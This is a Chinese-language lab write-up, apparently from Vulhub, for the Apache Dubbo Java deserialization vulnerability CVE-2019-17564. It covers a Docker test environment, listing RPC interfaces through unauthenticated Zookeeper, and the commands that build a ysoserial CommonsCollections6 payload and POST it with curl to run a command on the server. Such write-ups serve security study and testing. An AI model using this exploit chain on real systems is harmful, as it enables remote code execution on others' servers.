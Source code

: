 # Aapche Dubbo Java反序列化漏洞（CVE-2019-17564）

Apache Dubbo是一款高性能、轻量级的开源Java RPC服务框架。Dubbo可以使用不同协议通信，当使用http协议时，Apache Dubbo直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

在Spring文档中，对`HttpInvokerServiceExporter`有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

这个漏洞影响Apache Dubbo 2.7.4及以前版本，2.7.5后Dubbo使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换了`HttpInvokerServiceExporter`。

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞环境

执行如下命令启动一个Apache Dubbo 2.7.3 Provider：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`，服务器默认会返回500错误。

## 漏洞复现

利用该漏洞需要先知道目标RPC接口名，而Dubbo所有的RPC配置储存在registry中，通常使用Zookeeper作为registry。如果能刚好找到目标的Zookeeper未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub对外开放了8080端口和2181端口，其中2181即为Zookeeper的端口，我们本地下载[Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台Zookeeper服务器：

```
./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用`ls`即可列出其中所有节点，包括Dubbo相关的配置：

![](1.png)

获取到RPC接口名为`org.vulhub.api.CalcService`。直接用ysoserial生成CommonsCollections6的Payload作为POST Body发送到`http://your-ip:8080/org.vulhub.api.CalcService`即可触发反序列化漏洞：

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

进入容器，可见`touch /tmp/success`已成功执行。

![](3.png)
